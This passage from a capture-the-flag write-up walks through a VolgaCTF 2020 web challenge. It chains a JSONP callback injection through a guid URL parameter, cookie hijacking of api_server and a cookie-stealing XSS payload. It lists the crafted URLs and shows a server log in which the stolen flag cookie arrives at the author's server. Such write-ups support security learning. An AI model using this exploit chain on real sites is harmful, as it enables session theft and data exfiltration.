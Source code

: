 The guid variable was initialized on page load from a GET parameter passed on the URL:

```js
params = new URLSearchParams(location.search);

if(['/','/index.html','/profile.html','/report.php','/editprofile.html'].includes(location.pathname)) {
  getUser(params.get('guid'));
}
```
Having control over the guid parameter, I could set its value to ```&jsoncallback=?``` and JQuery would parse the response as javascript.

Having all the missing pieces of the puzzle, the following steps were used to complete the challenge:

1. Upload the XSS payload on the static subdomain.
2. Hijack the api_server cookie with the ```api_server=test.com\x8F``` value.
3. Redirect to ```https://volgactf-task.ru/profile.html?guid=%26jsoncallback%3D%3F```
4. The .getJson function would be called with the following URL :  ```https://test.com/?.volgactf-task.ru/user?guid=&jsoncallback=?```
5. The controlled server would return the cookie stealing payload and send it to my server.

Following the above steps, I received the flag on my web server logs , successfully completing the challenge:

```	
128.199.62.109 - - [28/Mar/2020:21:51:24 +0000] "GET /VOLGACTF/api_server=test.com%C2%8F;%20flag=VolgaCTF_0558a4ad10f09c6b40da51c8ad044e16 HTTP/1.1" 404 152 "https://volgactf-task.ru/profile.html?guid=%26jsoncallback%3D%3F" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:74.0) Gecko/20100101 Firefox/74.0"
```
